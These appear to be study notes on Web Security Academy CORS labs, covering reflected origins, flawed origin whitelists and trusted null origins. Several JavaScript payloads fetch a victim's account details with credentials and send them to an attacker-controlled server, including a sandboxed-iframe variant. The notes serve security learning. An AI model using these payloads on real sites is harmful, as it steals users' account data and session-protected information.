 ### Lab: CORS vulnerability with basic origin reflection
Some server may reflect origin in the response. i.e. if the req contains:
```
Origin: http://any.com
```
The response will contain the same origin as allowed if the server is configured to reflect origin:
```
Access-Control-Allow-Origin: http://any.com
```
If you can get user to click on the link that leads to your own website, and your own website contains the following script:
```
<script>
// both ways work

// var req = new XMLHttpRequest();
// req.onload = reqListener;
// req.open('get','https://0a9e001a04a2ac888bbfc28d00bf0063.web-security-academy.net/accountDetails',true);
// req.withCredentials = true;
// req.send();
// 
// function reqListener() {
//     console.log("in resp")
// //	location='//malicious-website.com/log?key='+this.responseText;
//     console.log(this.responseText)
// };

async function req() {
    const res = await fetch("https://vulnerable-website/accountDetails", {
        credentials: 'include',
    })
    const json = await res.text()

    window.location = 'https://your-server/exploit?key='+json
}
req()
</script>
```
Then you can make a request to that another website on behalf of the user


### Errors parsing Origin headers
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```

### Whitelisted null origin value
### Lab: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab8005504188db084705016001f0098.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
       location='https://exploit-0a99002204538de184ea4f6d0136005b.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
</script>"></iframe>
```


